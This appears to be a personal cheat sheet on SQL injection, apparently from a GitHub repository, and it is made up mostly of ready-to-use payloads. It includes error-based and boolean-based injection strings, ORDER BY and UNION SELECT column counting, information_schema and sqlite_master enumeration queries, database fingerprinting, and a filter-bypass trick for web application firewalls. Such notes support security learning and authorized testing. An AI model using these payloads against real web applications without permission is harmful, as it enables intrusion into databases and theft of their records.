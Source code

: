 # SQLi Injection 

## Types of SQLi  
* In-band: attacker uses the same channel of communication to launch their attacks and gather their results.
    * Error-based - relies on database to provide error messages
    * Union-based - fuses multiple select statements 
* Blind SQLi: attacker observes behaviour of payloads to determine existence of SQLi
    * Time-based - relies on waitin period between sending query and response to determine if vuln exists
    * Boolean - result returned varies depending on if query is true or false
* Out-of-band: attacker can't use the same channel to launch attack and gather information (Eg: server too slow)

## Injection targets
* Input fields
* URLs
```
http://application/apiv1/Users/?id=1 ' AND '1' LIKE '1'
```

* HTTP Headers  
    * [User-Agent](https://medium.com/@frostnull/sql-injection-through-user-agent-44a1150f6888)  
    * Referrer

## Exploit Payloads
Test ALL input fields  
```
'
"
'";<lol/>../--#`ls`
```
Error Based: Basic payloads to check for existence of SQL vuln
```
' or 1=1#
' or 1=1--
' or '1'='1'--
' or '1'='1';--

" or 1=1#  
" or 1=1-- 
" or '1'='1'--
" or '1'='1';--

'or 1=1/**
' UNION SELECT * from <tablename> LIMIT 1 OFFSET 1
```

Boolean Based: Proving existence with AND , OR injections

When injecting the `' AND 1=1` sql query, the same records should be returned as uninjected version since `name=productname` condition is met
```sql
SELECT * from PRODUCTS WHERE PRODUCTNAME = 'shirt' AND '1'='1';
```

Now, NO records should be returned as the second query is false. If this is the case, we can be sure of SQLi existence 
```sql
SELECT * from PRODUCTS WHERE PRODUCTNAME = 'shirt' AND '1'='0';
```

## Database fingerprinting
Syntax of SQL used depends on type of database used (MySQL, Oracle, MSSQL, SQLite).
Error messages can help determine which dbms. 

MySQL version:
```sql
SELECT @@version
```
Note, the complete query might look like `SELECT id, qty FROM products WHERE id=1 UNION SELECT 1, @@version`

SQLite version:
```sql
select sqlite_version();
```

## Figuring out number of columns
For when error messages are enabled, we have two options

Using ORDER BY:
```sql
1' ORDER BY 1--	#True
1' ORDER BY 2--	#True
1' ORDER BY 3--	#True
1' ORDER BY 4--	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

Using UNION SELECT:
```sql
1' UNION SELECT @        #The used SELECT statements have a different number of columns
1' UNION SELECT @,@      #The used SELECT statements have a different number of columns
1' UNION SELECT @,@,@    #No error means query uses 3 columns
                         #-1' UNION SELECT 1,2,3--	True
```

## Figuring out all database data - master tables

Provided you know the number of columns.

MySQL:
Can use `information_schema.schemata`
```sql
' UniOn Select 1,2,3,4,... fRoM information_schema.schemata
' union select 1,TABLE_NAME,3,4,5,6 FROM information_schema.columns;                                #To get all tables used
'  union select COLUMN_NAME,2,3,4,5,6 FROM information_schema.columns WHERE TABLE_NAME = 'users';   #To get all columns used in table users

```

SQLite:
Generally, a table called `sqlite_master` with columns `tbl_name` etc. contains all tables meta-data.

```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'    #Extract table names
```

## Bypassing WAF
https://securityonline.info/sql-injection-9-ways-bypass-web-application-firewall/

https://portswigger.net/support/sql-injection-bypassing-common-filters

1. Use `||` for concatenating strings in SQL:
```
`adm'||'in'` === `admin`
```

## References:
[SQLite Injections](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

[MySQL Injections](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-comment)

## SQL Syntax that I didnt know about
1. `LIMIT` to limit number of rows and `OFFSET` to define the start of rows
```
' UNION blah blah LIMIT 1 OFFSET 1
```

2. `||` for string concatenation


